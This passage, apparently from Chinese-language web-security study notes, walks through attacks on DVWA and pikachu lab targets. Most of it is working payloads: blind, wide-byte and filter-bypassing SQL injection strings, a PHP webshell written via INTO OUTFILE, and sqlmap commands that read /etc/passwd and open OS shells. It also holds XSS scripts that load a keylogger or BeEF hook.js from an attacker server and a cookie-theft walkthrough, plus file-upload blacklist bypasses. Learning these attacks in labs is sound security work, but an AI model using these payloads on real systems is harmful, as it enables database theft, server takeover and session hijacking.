1' and length(database()) = 4; #  exists

# 由此可判断出当前连接数据库名称的长度=4
```
```
判断数据库名称的字符组成元素
利用和ascii码的数值比较，来判断单个字符的具体值,ascii码共128个
 
1' and ascii(substr(database(),1,1)) > 64; #  exists
1' and ascii(substr(database(),1,1)) > 127; #  MISSING
···
1' and ascii(substr(database(),1,1)) = 100; #  exists

# 由此判断第一个字符的ascii码值为100，符号是'd'
# 以此类推，将后续的字符都测试出来，4次后可以得出'dvwa'的结果
```
```
爆表名，同样是先判断长度，后判断字符的ascii码数值

判断'dvwa'数据库中的表的个数

1' and (select count(table_name)>10 from information_schema.tables where table_schema = database()); #   
-- MISSING

1' and (select count(table_name)>5 from information_schema.tables where table_schema = database()); #   
-- MISSING

... 以此类推

1' and (select count(table_name)=2 from information_schema.tables where table_schema = database()); #   
-- exists

// 得出结果，数据库'dvwa'里共有2张表
```
```
猜解表名
猜解dvwa数据库中第一张表的名称字符长度

1' and (select length(table_name)>10 from information_schema.tables where table_schema = database() limit 0,1); #
-- MISSING

1' and (select length(table_name)>5 from information_schema.tables where table_schema = database() limit 0,1); #
-- exists

...以此类推

1' and (select length(table_name)=9 from information_schema.tables where table_schema = database() limit 0,1); #
-- exists

// 得出结果，数据库'dvwa'的第一个表的长度是9
```
```
猜解dvwa数据库第一张表的ascii码字符值

1' and (select ascii(substr(table_name,1,1))>128 from information_schema.tables where table_schema = database() limit 0,1); #
-- MISSING

1' and (select ascii(substr(table_name,1,1))>100 from information_schema.tables where table_schema = database() limit 0,1); #
-- exists

...以此类推

1' and (select ascii(substr(table_name,1,1))=103 from information_schema.tables where table_schema = database() limit 0,1); #
-- exists

// 可以得出结论，第一个字符是g

... 

// 用同样的方法，去遍历全部9个字符，可以得出，第一表为'guestbook'
// 同理可得，第二个表的名字为'users'

```
```
猜解字段名
先判断有多少个字段 -> 然后判断每个字段的长度 -> 判断每个字段的具体ascii码值

判断字段的数量

1' and (select count(column_name)>10 from information_schema.columns where table_name = 'users'); #
-- MISSING

1' and (select count(column_name)>5 from information_schema.columns where table_name = 'users'); #
-- exists

... 以此类推

1' and (select count(column_name)=8 from information_schema.columns where table_name = 'users'); #
-- exists

// 得出结论：表users共有8个字段
```
```
判断每个字段的长度（以第一个字段为例）

1' and (select length(column_name)>10 from information_schema.columns where table_name = 'users' limit 0,1); #
-- MISSING

1' and (select length(column_name)>5 from information_schema.columns where table_name = 'users' limit 0,1); #
-- exists

...以此类推

1' and (select length(column_name)=7 from information_schema.columns where table_name = 'users' limit 0,1); #
-- exists

// 得出结论：表users第一个字段的长度为7
```
```
遍历判断第一个字段的字符，以第一个字段的第一个字符为例

1' and (select ascii(substr(column_name,1,1))>100 from information_schema.columns where table_name = 'users' limit 0,1); #
-- exists

1' and (select ascii(substr(column_name,1,1))>120 from information_schema.columns where table_name = 'users' limit 0,1); #
-- MISSING

...以此类推

1' and (select ascii(substr(column_name,1,1))=117 from information_schema.columns where table_name = 'users' limit 0,1); #
-- exists

// 得出结论：表users的第一个字段的第一个字符的ascii码为117，对应的字符为'u'

...用同样的方法遍历所有的字符

// 得出表users的第一个字段为：'user_id'
```
```
字段名的另一个猜测方式
直接判断某个字段是否存在

1' and (select count(*)=1 from information_schema.columns where table_schema=database() and table_name='users' and column_name='password'); #
-- exists

// 结论证明字段中存在'password'

...不停的更换column_name='???' 的值，根据返回结果判断所需字段名
```

#### 时间盲注
- 使用场景：
  - 界面返回值只有一种True，无论输入任何值，返回情况都会按正常的来处理。加入特定的时间函数，通过查看WEB页面返回的时间差来判断注入的语句是否正确

- 方法：
  - 对于if(判断条件,sleep(n),1)函数而言，若判断条件为真，则执行sleep(n)函数，达到在正常响应时间的基础上再延迟响应时间n秒的效果；若判断条件为假，则返回设置的1，此时不会执行sleep(n)函数
  ```
  1' and if(length(database())=4,sleep(5),1);#\
  // 5s后响应，由此得出：当前数据库名的长度为4
  ```

### 堆叠查询注入
- 概述：在MySQL中，主要是命令行中，每一条语句结尾加;(分号)表示语句结束。这样我们就想到是不是可以多句一起使用。其原理也很简单，就是将原来的的语句构造完后加上分号，代表该语句结束，后面在输入的就是一个全新的sql语句了，这个时候使用增删改查毫无限制

- 使用条件：
  - 堆叠注入的使用条件十分有限，其可能受到API或者数据库引擎，又或者权限的限制，只有当调用数据库函数支持执行多条sql语句时才能够使用，利用mysqli_multi_query()函数就支持多条sql语句同时执行。但实际情况中，如PHP为了防止sql注入机制，往往使用调用数据库的函数是mysqli_query函数，只能执行一条语句，分号后面的内容将不会被执行，所以说堆叠注入的使用条件十分有限，一旦能够被使用，可能对网站造成很大的影响

- 示例
```sql
select * from users; show databases;
-- 第一条语句查询表，第二条查询当前数据库名
```

### 二次注入
- 场景：通常与代码审计配合使用
- 概述：二次注入通常是指在存入数据库的时候做了过滤，但是取出来的时候没有做过滤，而产生的数据库注入
- 步骤：
  1. 插入恶意数据: 
  <br>在第一次向数据库插入数据的时候，仅仅只是使用了addslashes函数对其中的特殊字符进行了转义，但是addslashes函数有一个特点就是虽然参数在过滤后会添加"\"进行转义，但"\"并不会插入到数据库中，在写入数据库的时候还是保留了原来的数据。
  2. 引用恶意数据
  <br>在将数据存入到数据库中之后，开发者就认为数据是可信的。在下一次进行需要进行查询的时候，直接从数据库中去除了脏数据，没有进行进一步的检验和处理，这样就会造成SQL的二次注入
  <br>
  <br>比如在第一次插入数据的时候，数据中带有单引号，直接插入到了数据库中；然后再下一次使用中再拼凑的过程中，就形成了二次注入

### 宽字节注入
- 靶场下载
```
docker pull area39/pikachu
docker run -d -p 80:80 area39/pikachu

# 点击红色字体进行初始化
```
- 宽字节概念
  - 单字节字符集：所有的字符都使用一个字节来表示，比如ASCII编码(0~127)
  - 多字节字符集：在多字节字符集中，一部分字符用多个字节表示，另一部分(可能没有)用单个字节表示
  - 宽字节注入时利用mysql的一个特性，使用<font color=tomato>GBK编码</font>的时候，会认为两个字符是一个汉字
  - 只有使用GBK编码时，才可能是宽字节注入

- 宽字节注入原理
  - 为了防止网站被SQL注入，一些网站开发人员会做一些防护措施，其中最常见的就是对一些特殊字符进行转义，通过前面的学习可以了解到，SQL注入非常关键的一步就是让引号闭合和跳出引号
  - 网站开发者也想到了这一步，于是做了防护措施：转义，对输入的敏感内容，特殊字符进行转义
  - addslashes()函数
    - addslashes()函数在预定义字符之前添加反斜杠(\)进行转义
    - 预定义字符：单引号、双引号、反斜杠、NULL
  - 字符型的注入点，一般都用单引号来判断，但是当遇到addslashes()时，单引号会被转义，导致我们判断注入点的单引号失效。所以我们的目的就是使用转义符\失效，使单引号逃逸。
```
利用burp抓包
在注入点输入：
kobe%df' or 1=1 #

拦截数据包，发现数据包中的数据是：
kobe%25df%27+or+1%3D1+%23

其中：经过URL编码后
% -> %25
' -> %27
空格 -> +
= -> %3D
# -> %23

实际目的是为了把后面加在'前面的\解析掉
所以是%df+'\'
把25在数据包中删除，变为：
kobe%df%27+or+1%3D1+%23

通过数据包，得到正确结果，\被成功解析掉
```
- 原理：
  - 前端输入的反斜杠\经过ULR编码后是%5c。在输入%df后，使得添加反斜杠后形成%df%5c，如果程序数据库使用了GBK编码，%df%5c会被识别成繁体字“连”，单引号成功逃逸。整个过程的关键点在于单引号前面的%df,造成宽字节注入使得单引号逃逸成功并闭合语句，才有了后面的操作
  
- 实操：
```
爆库名：(使用pikachu靶场)
判断字段列数

kobe%df' union all select 1,2 #

// 成功出现数据，证明查询字段为2

查询当前库名：

kobe%df' union all select database(),version() #

-- your uid:pikachu
-- your email is: 5.7.26-0ubuntu0.18.04.1-log

// 成功爆出当前的库名为：pikachu
```
```
爆表名
判断当前数据库中的表的个数

kobe%df' union all select count(TABLE_NAME),1 FROM information_schema.TABLES WHERE TABLE_SCHEMA = database() #

-- your uid:5
-- your email is: 1

// 成功爆出pikachu数据库下有5个表
// 感觉5个表名，同时爆，应该不会超字符数量限制，尝试使用group_concat()

然后爆表名：

kobe%df' union all select group_concat(TABLE_NAME),1 FROM information_schema.TABLES WHERE TABLE_SCHEMA = database() #

-- your uid:httpinfo,member,message,users,xssblind 
-- your email is: 1

// 成功爆出所有表名

爆字段名(以member表为例)

kobe%df' union all select group_concat(column_name),1 from information_schema.COLUMNS where TABLE_NAME = (select TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = database() limit 1,1)#

-- your uid:id,username,pw,sex,phonenum,address,email 
-- your email is: 1

// 成功爆出所有字段名：id,username,pw,sex,phonenum,address,email
```

### http header和cookie注入
- 概述：HTTP头部注入并不是一个新的SQL注入类型，而是指出现SQL注入漏洞的场景，有时候，后台开发人员为例验证客户端头信息(比如常用的cookie验证)，或者通过http header头信息获取客户端的一些资料，比如useragent，accept字段等，会获取客户端的http header信息并使用SQL进行处理，如果此时没有足够的安全考虑，则可能会导致基于http header的SQL注入漏洞

### 从MySQL注入到GetShell
- 概述：Mysql支持向外写文件（这里的“外”）是指服务器内部，需要用到mysql select into outfile命令：在MySQL数据库中存在mysql select into outfile命令，该命令的作用是将选择的一行代码写入一个文件中，文件被创建到服务器上。
- into outfile的使用前提：
  - 要知道网站的据对路径，可以通过开源程序，报错信息，phpinfo界面，404界面等一些方式知道
  - 对目录要有写权限，一般image之类的存放图片的目录有写权限
  - 要有mysql file权限（即能否对系统的文件读取和写操作），默认情况下只有root权限有
  - 

- 我们使用into outfile写入一句话木马，文件名为shell2.php
```
' union select 1,"<?php eval($_POST['a']);" into outfile '/var/www/html/shell2.php
```

### SQL注入绕过
- 大小写绕过
  - 概念：大小写绕过用于只针对小写或大写的关键字匹配技术，正则表达式/express/i 大小写不敏感即无法绕过，这是最简单的绕过技术
  ```
  举例：z.com/index.php?page_id=15 uNIoN sELecT 1,2,3,4
  ```

- 替换关键字
  - 这种情况下大小写无法绕过，而且正则表达式会替换或删除select、union这些关键字，如果只匹配一次就很容易绕过
  ```
  举例：z.com/index.php?page_id=-15 UNIunionON SELselectECT 1,2,3,4
  ```
  - 同样是很基础的技术，有些时候甚至构造的更复杂：SeLSeselectleCTecT 
  - 根据程序检测机制，看检测几次，可以使用n+1写

- 使用编码
  - URL编码
    - 在浏览器中输入一个链接，非保留字的字符浏览器会对其URL编码，如空格变为%20、单引号%27、左括号%28、右括号%29，普通的URL编码可能无法实现绕过，需要结合实际场景判断
    - 还存在一种情况URL编码只进行了一次过滤，可以使用两次编码绕过
    - 使用URL编码的前提是，从前端传到后端，浏览器或者服务器要有解码的过程才行
    ```
    1%2527id=1%252f%252a*/UNION%252f%252a%252a/SELECT
    ```
  - 十六进制编码
    - 应用场景：报错注入的时候常用
  - Unicode编码
    - 形式："u"或者是"%u"加上4位16进制Unicode编码
    - 使用前提：前端向后端传递的过程中，有unicode解码的过程才能使用
    ```
    假如对select关键字进行了过滤
    可以对其中几个字母进行unicode编码：se%u006cect
    ```

- 使用注释
  - 常见注释符号：
  ```
  -- ,  /**/ , # , -- -
  ```
  - /**/可以替代空格
  - --后面不加空格，也可以替代空格，但是不能直接跟函数
  ```
  select--database(); // 不报错，但是值为0
  select--1; // 不报错，值为1
  select--1,database(); // 等得到正确的值
  
  # 和 --加空格，是真正的注释
  ```
  - 内联注释
    - 相比普通注释，内联注释用的更多，它有一个特性/*!*/只有MySQL能识别
    ```
    举例：index.php?page_id=-15 /*!UNION*/ /*!SELECT*/ 1,2,3
    mysql> select user_id from users where user_id=1 /*!union*/ /*!all*/ /*!select*/ 2;
    ```

- 等价函数与命令
  - 函数或变量
  ```
  bin() # 二进制
  hex() # 16进制
  bin()、hex() ==> ascii() 

  concat() ==> concat_ws()

  mid(),substr() ==> substring()

  strcmp(str1,str2)
  比较两个字符串，如果这两个字符串相同，返回0，如果第二个字符串小于第一个字符串返回1，反之返回-1

  eg:strcmp('p',0x70) // 返回0
  strcmp() 可以实现字符串和对应的十六进制ascii码的比较
  ```
  - 符号
    - and or 可以用&& || 替换
    - 空格，可以使用如下符号表示其作用：%20 %09 %0a %0b %0c %0d %a0 /**/ 

- 特殊符号
```
select user_id from users
等价于
select+user_id-1+1.from users;
```

### SQL注入防御
- 预编译和绑定变量
```java
String sql = "select id,num from user where id=?";    // 定义sql语句
    PreparedStatement ps = conn.prepareStatement(sql);
    ps.setInt(1,id);    // 设置变量
    ps.executeQuery();    // 执行

```
- 严格检查参数的数据类型，使用安全函数

### SQLmap使用
- 官方网站：http://sqlmap.org/
- 概述：
  - Sqlmap是一款开源的渗透测试工具，可以自动检测和利用SQL注入漏洞以及接入该数据库的服务器。它拥有非常强大的检测引擎，具有多种特性的渗透测试器，通过数据库指纹提取访问底层文件系统并通过外带连接执行命令。
- Sql支持的数据库：
```
MySQL, Oracle, PostgreSQL, Misrosoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase和SAP MaxDB
```
- Sqlmap支持五种不同的注入模式
```
1. 基于布尔的盲注，即可以根据返回页面判断条件真假的注入
2. 基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟句是否执行来判断
3. 基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中
4. 联合查询注入：可以使用union的情况下注入
5. 堆查询注入：可以同时执行多条语句时的注入
```

- 参数详解 
  - Target: 目标
  ```
  1. 目标URL
  参数：-u 或者 --url
  格式：http(s)://targeturl[:port]/[...]
  例如：python sqlmap.py -u "http://www.target.com/..." -f --banner --dbs --users
  注意：这里的url要具体到携带注入点的参数
  eg：http://121.196.62.22:8082/vulnerabilities/sqli/?id=123&Submit=Submit#

  注意：此时仍然不能注入成功，因为页面会自动重定向到登录页面，所以需要--cookie保证sqlmap能够成功进入注入页面
  eg: python sqlmap.py -u "http://121.196.62.22:8082/vulnerabilities/sqli/?id=123&Submit=Submit#" --cookie "cookie值" --batch

  ```
  ```
  2. 从Burp或者WebScarab代理中获取日志
  参数：-l
  功能：可以把Burp proxy或者WebScarab proxy中的日志直接导出来交给sqlmap来逐个检测是否有注入
  ```
  ```
  3. 从文本中获取多个目标扫描
  参数：-m
  说明：文件中保存url格式如下，sqlmap会一个一个检测
  www.geektime1.com/vuln1php?q=student
  www.geektime2.com/vuln2.asp?id=1
  www.geektime3.com/vuln3/id=1*
  ...
  ```
  ```
  4. 从文件加载HTTP请求(常用，推荐)
  参数：-r
  说明：sqlmap可以从一个文本文件中过去http请求，这样就可以跳过设置一些其他参数(比如cookie，POST数据，等等)

  比如：文本文件内容如下：
  POST/students.php HTTP/1.1
  Host:www.geektime.com
  User-Agent:Mozilla/4.0

  id = 1
  ```
  - --batch
    - 功能：sqlmap自动判断，后续所有的y/n的选择
  - Request: 请求设置
  ```
  --method：指定请求方法
  --data：把数据以POST方式提交
  --param：当GET或POST的数据需要用其他字符分割测试参数的时候需要用到此参数--cookie：设置cookie，提交请求的时候附带所设置的cookie
  --load-cookies：从文件获取cookie
  --user-agent：可以使用–user-anget参数来修改
  --headers：可以通过–headers参数来增加额外的http头
  --proxy：设置代理，可以避免本机地址被封禁
  --delay：可以设定两个HTTP(S)请求间的延迟 防止发送过快导致被封ip
  --random-agent：使用–random-agnet参数来随机的从./txt/user-agents.txt中获取。当–level参数设定为3或者3以上的时候，会尝试对User-Angent进行注入。--referer：在请求目标的时候可以自己伪造请求包中的referer
  –-level：参数设定为3或者3以上的时候会尝试对referer注
  ```
  ```
  1. POST请求参数设置
  参数：--data
  作用：此参数是把数据以POST方式提交，sqlmap会像检测GET参数一样检测POST参数
  例子：
  python sqlmap.py -u "http://www.geektime.com/students.php" --data="id=1" -f -- banner --dbs --users
  ```
  ```
  2. 利用正则过滤目标网址
  参数 --scope
  例如：
  python sqlmap.py -l burp_http.log --scope="(www)?\.target\.(com|net|org)"
  ```
  ```
  3. 避免过多的错误请求被屏蔽
  参数：--safe-url, --safe-freq
  说明：有的Web应用程序会在用户多次发送访问错误的请求时屏蔽掉之后的所有请求，这样在sqlmap进行探测或者注入的时候可能造成错误请求而触发这个策略，导致后续无法进行测试
  绕过这个策略有两种方式

  --safe-url：提供一个安全不错误的链接，每隔一段时间都会去访问一下
  --safe-freq：提供一个安全不错误的链接，每次测试请求之后都会再访问一遍安全链接。
  ```
  - Optimization: 优化（很少用到）
  ```
  -o 开启所有优化开关
  ```
  - Injection: 注入
  ```
  -p 参数
  作用：测试指定参数
  --skip: 不想要测试的参数可以通过skip设置跳过
  --dbms: 指定数据库，节省sqlmap的检测时间
  --os: 指定数据库服务系统，节省sqlmap的检测时间
  ```
  - Detection: 探测等级
    - 参数：--level
    - 说明：共有5个等级，默认为1，最大为5，sqlmap使用的payload可以在xml/payload.xml中看到，用户也可以根据相应的格式添加自己的payload
    - 这个参数不仅影响使用哪些payload，同时也会影响测试的注入点，GET和POST的数据都会测试，HTTP Cookie在level为2的时候就会测试，HTTP USer-Agent/Referer头在level为3的时候会测试
    - 推荐使用level3 
  - risk：风险等级
    - 参数：--risk
    - 说明：共4个等级，默认1，建议使用1
    - 共有四个风险等级，默认是1会测试大部分的测试语句，2会增加基于事件的测试语句，3会增加OR语句的SQL注入测试
    - 在有些时候，例如在UPDATE/DELETE的语句中，注入一个OR的测试语句，可能导致更新整个表，造成很大的风险
    - 测试的语句同样可以在xml/payloads.xml中找到，用户也可以自行添加payload
  - 页面比较
    - 参数: --string,--not-string,--regexp,--code
    - 说明：默认情况下sqlmap通过判断返回页面的不同来判断真假，但有时候这会产生误差，因为有的页面在每次刷新的时候都会返回不同的代码，比如页面当中包含一个动态的广告或者其他内容，这会导致sqlmap的误判。
    - 此时用户可以提供一个字符串或者一段正则匹配，在原始页面与真条件下的页面都存在的字符串，而错误页面中不存在的字符串（使用--string参数添加字符串，--regexp添加正则），同时用户也可以提供一段在原始页面与真条件下的页面都不存在的字符串，而错误页面中存在的字符串（--not-string添加）。
    - 用户也可以提供真与假条件返回的HTTP状态码不一样来注入，例如，响应200的时候为真，响应401的时候为假，可以添加参数--code=200
  -  Enumeration：枚举数据 （-a,--all：获得所有信息）
  ```
  1. 标志
  参数：-b,--banner
  功能：获取数据库管理系统的标识
  说明：大多数的数据库系统都有一个函数可以返回数据库的版本号，通常这个函数是version()或者变量@@version，这主要取决于是什么数据库
  ```
  ```
  2. 当前用户
  参数：--current-user
  说明：在大多数据库中可以获取到管理数据的用户
  ```
  ```
  3. 当前数据库
  参数：--current-db
  说明：返还当前连接的数据库
  ```
  ```
  4. 当前用户是否为管理员
  参数： --is-dba
  说明：判断当前的用户是否为管理员，是的话会返回True
  ```
  ```
  5.列出数据库管理用户
  参数：--users
  说明：当前用户有权限读取包含所有用户的表的权限时，就可以列出所有管理用户
  ```
  ```
  6. 列出并破解数据库用户的hash
  参数：--passwords
  说明：当前用户具备读取包含用户密码的表的权限时，sqlmap会现列举出用户，然后列出hash，并尝试破解。
  代码示例：
  python sqlmap.py -u "http://geektime/sqlmap/pgsql/students.php?id=1" --passwords -v1
  ```
  ```
  7. 列出数据库管理员权限
  参数： --privileges
  说明：当前用户具备读取包含所有用户的表的权限时，很可能列举出每个用户的权限，sqlmap将会告诉用户哪个是数据库的超级管理员。也可以用-U参数指定想看哪个用户的权限。
  ```
  ```
  8. 列出数据库管理员角色
  参数：--roles
  说明：当前用户具备读取包含所有用户的表的权限时，很可能列举出每个用户的角色，也可以用-U参数指定想看哪个用户的角色。
  注意：仅适用于oracle
  ```
  ```
  9. 列出数据库系统的数据库
  参数：--dbs
  说明：当前用户具备读取包含所有数据库信息的权限时，即可列出所有的数据库
  ```
  ```
  10. 列出数据库表
  参数：--tables,--exclude-sysdbs,-D
  说明：当前用户具备读取包含所有数据库表信息的权限时，即可列出一个特定数据的所有表。如果不提供-D参数来指定一个数据库的时候，sqlmap会列出数据库所有库的所有表。
  --exclude-sysdbs参数是指可排除系统数据库。
  ```
  ```
  11. 列出数据表中的字段
  参数：--columns,-C,-T,-D
  说明：当前用户具备读取包含所有数据库表信息的权限时，即可列出指定数据库表中的字段，同时也会列出字段的数据类型
  注意：如果没有使用-D参数指定数据库时，默认会使用当前数据库
  ```

  - File system access: 访问文件系统
  ```
  --file-read=RFILE 从后端的数据库管理系统读取文件
  --file-write=WFILE 上传文件到后端的数据库管理系统
  --file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径
  ```
  ```
  读取文件案例：
  python sqlmap.py -u "http://127.0.0.1:8080/vulnerabilities/sqli/?
  id=1&Submit=Submit#" --cookie="PHPSESSID=isgvp2rv4uts46jbkb9bouq6ir; 
  security=low" -p id --file-read "/etc/passwd"
  ```
  ```
  写入文件案例
  python sqlmap.py -r 1.txt --level 3 --batch --file-write="D:\Pythono\SQLMap\0930.txt" --file-dest="/var/www/html/0930/txt"
  注意：
  --file-dest的绝对路径后面要加上，上传文件传到服务器后自定义的文件名
  ```
  - Operating system access：访问操作系统
  ```
  -os-cmd=OSCMD  执行操作系统命令
  --os-shell     交互式的操作系统的shell
  --os-pwn       获取一个OOB shell，meterpreter或VNC
  --os-smbrelay  一键获取一个OOB shell，meterpreter或VNC
  --os-bof       存储过程缓冲区溢出利用 
  --priv-esc     数据库进程用户权限提升
  --msf-path=MSFPATH Metasploit Framework  本地的安装路径
  --tmp-path=TMPPATH  远程临时文件目录的绝对路径
  ```
  - 爬取网站URL
  ```
  参数：-crawl
  作用： sqlmap可以收集潜在的可能存在漏洞的连接，后面跟的参数是爬行的深度。此时的URL可以不带参数。
  例子：python sqlmap.py -u "http://127.0.0.1:8080/vulnerabilities/sqli/? id=1&Submit=Submit#" --batch --crawl=3
  ```
  - 定义dump数据的格式
  ```
  参数： --dump-format
  输出的格式可定义为：CSV，HTML，SQLITE
  ```
  - 忽略在会话文件中存储的查询结果
  ```
  参数：--fresh-queries
  说明：忽略session文件保存的查询缓存，重新查询
  ```
  - 自定义输出路径
  ```
  参数：--output-dir
  sqlmap默认把session文件跟结果文件保存在output文件夹下，用此参数可自定义输出路径 例如：-output-dir=/tmp
  ```

## XSS攻击
- XSS漏洞：利用各种标签来插入一些恶意的js语句
- XSS攻击技巧
  - 使用网站编码，跳过网站对特殊符号的限制
   [编码详情](../web/javascript.md#扩展内容1)
  - 当用户执行某个操作的时候，插入js代码，使用事件句柄的方式<br>
  [事件句柄详细查看](../web/javascript.md#扩展内容1)
- XSS攻击防护
  - [HTML实体编码（转义字符）,详情点击查看【有效防止XSS攻击】](../web/html_study.md#文本编辑)
    - 原理：使用HTML实体编码是防止XSS（跨站脚本）攻击的一种常见方法，特别是当直接将用户输入插入到HTML文档中时。HTML实体编码能够防止特殊字符被浏览器解析为代码，从而有效地阻止XSS攻击。

## XSS详解
- 基本概念：
  - 跨站脚本攻击XSS(Cross Site Scripting)，为了不和层叠样式表(Cascading Style Sheets,CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。
  - 恶意攻击者往Web页面里插入恶意脚本（JavaScript代码），当用户浏览该页面时，嵌入Web里面的JS代码会被执行，从而达到恶意攻击用户的目的。
  - XSS攻击针对的时用户层面的攻击。
- 常见场景：
  - 在Web页面上，有一种很常见的功能是：将用户输入的内容输出到页面上。但如果输入的内容是一段经过构造的JS代码，提交之后再次访问这个页面时，用户就会获取该JS代码在浏览器端执行的结果，通过构造其他相应的代码，攻击者可以执行更具危害的操作
- 总结（实现XSS攻击的两个前提）：
  - 能将恶意代码插入网页中
  - 插入到网页中的JS代码能被解析执行

### XSS分类
- 反射型
  - 非持久型
  - 常见的就是在URL中构造，将恶意链接发给目标用户。当用户访问该链接的时候，会像服务器发起一个GET请求来提交带有恶意代码的链接。
  - 造成反射型XSS主要是GET请求
  - 攻击流程：
    - 第一步：黑客发送带有XSS恶意脚本的链接给用户
    - 第二步：用户点击了恶意链接，访问了目标服务器
    - 第三步：目标服务器将XSS同正常页面返回给用户浏览器
    - 第四步：用户浏览器解析了网页中的XSS恶意代码，向恶意服务器发起请求
    - 第五步：黑客从自己搭建的恶意服务器获取用户提交的信息
- 存储型
  - 持久型
  - 常见的就是博客留言板，反馈投诉，论坛评论，将恶意代码和正文都存入服务器，每次访问都会触发恶意代码
- DOM型（特殊反射型）

### 手工测试
```
 也可以触发js代码
```

### XSS盲打
- 概述：
  - XSS盲打是一种攻击场景，也是属于存储型XSS类型
  - 盲打的意思是无法直接在前端看到反馈效果，只有后台能看到输入内容，从前端无法判断是否存在XSS，这种情况下，我们直接往里面插入XSS，然后等待，当管理员看时就会遭到XSS攻击

### XSS键盘记录
```
<script src="http://192.168.0.90:8081/pkxss/rkeypress/rk.js"></script>
```

### XSS平台利用—获取cookie
- 攻击者想要的是进入账号之后的cookie值
- 恶意代码
```
<script>document.write('')</script>
```
- 实验过程
```
目标设备：192.168.0.90:8083
恶意服务器：192.168.0.90：8081

1. 将恶意文件的js代码，提交到xss盲打后台
<script>document.write('')</script>

2.在192.168.0.90:8083登录后台后，代码自动执行，在192.168.0.90:8081的管理后台能看到收集到的cookie信息
ant[uname]=admin; ant[pw]=10470c3b4b1fed12c3baac014be15fac67c6e815; PHPSESSID=7k44l2c1evhp7potr0shc98mmc

3. 在chrome（新浏览器）上打开(http://192.168.0.90:8083/vul/xss/xssblind/admin_login.php)

4. 使用cookie editor 填写收集到的cookie信息，登录

5. 登录成功，试验成功
```
- 获得cookie之后的问题
  - 时间限制，即cookie仅在用户登录网站的时间内有效，一但退出登录，则cookie值无效

### BeEF-XSS
- 概述：
  - BeEF(Brower Exploitation Framework)是一款非常强大的Web框架攻击平台，集成了许多payload，可以通过XSS漏洞配合Javascript脚本和Metasploit进行渗透。基于Ruby语言编写，并且支持图形化界面，操作简单

- 初始化配置：
```
配置文件路径：kali虚拟机
/usr/share/beef-xss/config.yaml

更改内容：
1. 账号密码：
user: ""
passwd: ""

2. 设置监听地址(本机ip)
host: "和kali地址相同即可" // 192.168.98.135

上面都修改好后，保存退出
```
- 登录BeEF
```shell
./beef // 登录BeEF
[13:45:25][*] 1 network interfaces were detected.
[13:45:25][*] running on network interface: 192.168.0.99
[13:45:25]    |   Hook URL: http://192.168.0.99:3000/hook.js
[13:45:25]    |_  UI URL:   http://192.168.0.99:3000/ui/panel  
# UI URL:BeEF登录页面
[13:45:25][*] RESTful API key: 3a6f9f84c50de06a392055d6d8f928974de02787
# 启用攻击的凭证：API key
[13:45:25][!] [GeoIP] Could not find MaxMind GeoIP database: '/var/lib/GeoIP/GeoLite2-City.mmdb'
[13:45:25]    |_  Run geoipupdate to install
[13:45:25][*] HTTP Proxy: http://127.0.0.1:6789

```

- 使用BeEF克隆网站
```
curl -H "content-Type: application/json; charset=UTF-8" -d '{"ulr":"<URL of site to clone>", "mount":"<where to mount>"}' -X POST http://<BeEFURL>/api/seng/clone_page?token=<token>

// <URL of site to clone>  需要克隆的网站
// <where to mount> 克隆页面在服务器的哪个路径访问
// <BeEFURL> 服务器地址
// <token> 服务启动时的beef API key
```

- hook.js的作用
  - 作用：劫持目标程序原有执行流程，添加额外处理逻辑的过程
  - 使用过程模拟：
  ```
  1. 在pikachu的XSS盲打模块上传hook.js脚本文件
  <script src="http://192.168.0.99:3000/hook.js"></script>

  2. 当管理员登录后台后，自动加载hook.js文件

  3. 选择Current Browser -> Commands -> Hooked Domain -> Get Cookie 并点击Execute获取cookie
  ```

### XSS防御绕过
- 过滤不严格
- HTML实体编码默认配置

### XSS安全防御
- 输入检查
- 输出检查
  - HTML实体编码
  - JavaScript编码
  - HttpOnly

## 文件上传及验证绕过
- 概述：
  - 文件上传是Web网页中常见的功能之一，通常情况下恶意文件的上传，会形成漏洞。
  - 逻辑：用户通过上传恶意文件，通过服务器的校验后保存到指定位置。当用户访问已经上传成功的文件时，上传的脚本会被Web容器解析，从而对网站造成危害
  - 漏洞利用点：
    - 能不能传上去
    - 保存位置在哪里
    - 能不能运行（被加载解析）

### 客户端绕过
- 后缀名绕过：使用burp （推荐，工作中用的最多）
- F12，禁用js之后上传
- 清理前端代码，直接把调用js函数的代码删除，之后上传（仅在火狐中生效）

### 服务端黑名单绕过
- 特殊可解析后缀
  - 可以上传一些特殊的非“asp, aspx, php, jsp”的后缀名的文件，例如：`.phtml, .phps, .php5, .pht`，在Apache的httpd.conf有如下配置代码时，一样能解析php代码
  - Apache:httpd.conf配置代码
  ```
  addType application/x-httpd-php .php .phtml .phps .php5 .pht
  ```

- 大小写绕过

- 点绕过
  - 在文件名最后加.来绕过探测（可以加多个点，不影响后续解析），需要在burp进行操作

- 空格绕过
  - 在尾部加空格进行绕过，需要在burp进行操作，仅适用于Windows服务器的网站，不适用于其他系统的服务器

- ::$DATA绕过
  - 在Windows中，如果文件名+"::$DATA"会把::$DATA之后的数据当成文件流处理，不会检测后缀名，且保持::DATA之前的文件名。使用它的目的就是不检查后缀名，例如：
  ```
  phpinfo.php::$DATA
  ```
  - Windows会自动去掉末尾的::$DATA变成phpinfo.php
  - 所以这种方法依然仅适用于windows服务器的网站

- 配合解析绕过
  - 由于只对代码处理一次，今次不够严谨，比如：`~.php. .`就能成功绕过
  - 代码示例：
  ```php
  $is_upload = false;
  $msg = null;
  if (isset($_POST['submit'])) {
      if (file_exists(UPLOAD_PATH)) {
          $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess",".ini");
          $file_name = trim($_FILES['upload_file']['name']);
          $file_name = deldot($file_name);//删除文件名末尾的点
          $file_ext = strrchr($file_name, '.');
          $file_ext = strtolower($file_ext); //转换为小写
          $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
